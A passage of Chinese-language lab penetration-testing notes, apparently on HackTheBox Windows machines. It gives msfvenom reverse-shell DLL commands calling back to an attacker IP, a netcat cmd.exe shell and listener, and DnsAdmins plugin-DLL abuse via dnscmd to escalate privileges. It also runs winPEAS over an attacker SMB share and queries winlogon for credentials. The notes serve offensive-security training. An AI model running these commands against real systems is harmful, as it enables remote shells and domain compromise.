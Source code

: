   ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=443 -f dll -o rev.dll
  #或者
  msfvenom -p windows/x64/exec CMD='\\10.10.16.5\s\nc.exe 10.10.16.5 1234 -e cmd.exe' -f dll > reverse.dll
  ```

  ```bash
  smbserver.py s .
  ```

  2、kali 监听端口

  ```
  nc -lvnp 443
  ```

  3、靶机执行

  ```
  dnscmd.exe /config /serverlevelplugindll \\10.10.16.5\s\rev.dll
  sc.exe \\resolute stop dns
  sc.exe \\resolute start dns
  ```

  

- 提权时远程执行 winpeas [Privilege Escalation Awesome Scripts Suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

  可以开启远程smb，远程执行

  kali：

  ```
  smbserver.py -username df -password df share . -smb2support
  ```

  靶机：

  ```powershell
  *Evil-WinRM* PS C:\> net use \\10.10.14.30\share /u:df df
  The command completed successfully.
  *Evil-WinRM* PS C:\> cd \\10.10.14.30\share\
  *Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.14.30\share>
  *Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.14.30\share> .\winPEAS.exe cmd fast > sauna_winpeas_fast
  ```




- 提权二次信息搜集时，注意 `winlogon` 日志

  ```powershell
  *Evil-WinRM* PS C:\Users\FSmith> reg.exe query "HKLM\software\microsoft\windows nt\currentversion\winlogon"
  
  *Evil-WinRM* PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> get-item -path .
  ```


